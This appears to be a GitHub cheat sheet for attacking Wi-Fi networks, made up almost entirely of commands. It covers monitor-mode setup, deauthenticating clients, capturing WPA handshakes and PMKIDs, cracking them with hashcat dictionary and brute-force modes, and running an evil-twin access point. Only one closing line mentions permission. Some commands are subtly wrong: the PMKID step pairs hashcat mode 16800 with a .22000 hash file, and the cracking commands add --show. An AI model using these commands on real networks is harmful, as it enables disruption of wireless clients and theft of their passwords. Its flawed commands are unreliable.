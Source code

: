 # 🧰 Wi-Fi Hacking Cheat Sheet

This cheat sheet covers essential Wi-Fi penetration testing techniques, including reconnaissance, handshake capture, and password cracking using `aircrack-ng`, `hcxtools`, and `hashcat`.

---

## 🔧 1. Interface Setup

### 🛑 Stop Network Services
```bash
sudo systemctl stop NetworkManager.service
sudo systemctl stop wpa_supplicant.service
```

### ▶️ Start Network Services
```bash
sudo systemctl start wpa_supplicant.service
sudo systemctl start NetworkManager.service
```

### 🛰️ Set Interface to Monitor Mode
```bash
sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor
sudo ip link set wlan0 up
```
> 💡 Replace `wlan0` with your actual network interface name (check with `ip a` or `iwconfig`).

---

## 🔍 2. Reconnaissance

### 🌐 Scan All Networks
```bash
sudo airodump-ng wlan0
```

### 🎯 Target Specific Access Point
```bash
sudo airodump-ng --bssid <BSSID> -c <CHANNEL> -w capture_file wlan0
```
> Replace `<BSSID>` with the AP's MAC address, and `<CHANNEL>` with the channel number.

---

## 💥 3. Capturing Handshakes

### ❌ Deauthentication Attack (Force Client Reconnect)
```bash
sudo aireplay-ng --deauth 10 -a <BSSID> wlan0
```

### 👻 Passive Capture Without Disconnecting Clients
```bash
sudo hcxdumptool -i wlan0 -w dumpfile.pcapng
```

---

## 🔄 4. Converting Capture Files

### 📦 From `.cap` to `.22000`
```bash
hcxpcapngtool -o wifi_hash.22000 -E essidlist.txt capture_file.cap
```

### 🧪 From `.pcapng` to `.22000`
```bash
hcxpcapngtool -o hash.22000 -E essidlist.txt dumpfile.pcapng
```

---

## 🔓 5. Cracking Passwords

### 📚 Using Dictionary Attack
```bash
hashcat -m 22000 -a 0 hash.22000 /path/to/wordlist.txt --force --show
```

### 🧮 Using Brute Force Attack
```bash
hashcat -m 22000 -a 3 hash.22000 ?d?d?l?u`!`$?d?d?d --force --show
```
> 🗂️ Replace `/path/to/wordlist.txt` with the actual path to your wordlist file.

---

## 🧠 6. Additional Attacks

### 🧬 PMKID Attack (WPA2/WPA3)
```bash
sudo hcxdumptool -i wlan0 -o pmkid.pcapng --enable_status 3
sudo hcxpcapngtool -o pmkid_hash.22000 pmkid.pcapng
hashcat -m 16800 pmkid_hash.22000 /path/to/wordlist.txt --force --show
```

### 👿 Evil Twin Attack (Fake Access Point)
```bash
sudo airbase-ng -e "FakeAP" -c <CHANNEL> wlan0
```

---

## 📎 Notes

- Make sure your wireless adapter supports monitor mode and packet injection.
- Consider using `airmon-ng check kill` before monitor mode if services interfere.
- Always run these commands responsibly, legally, and with permission.

---
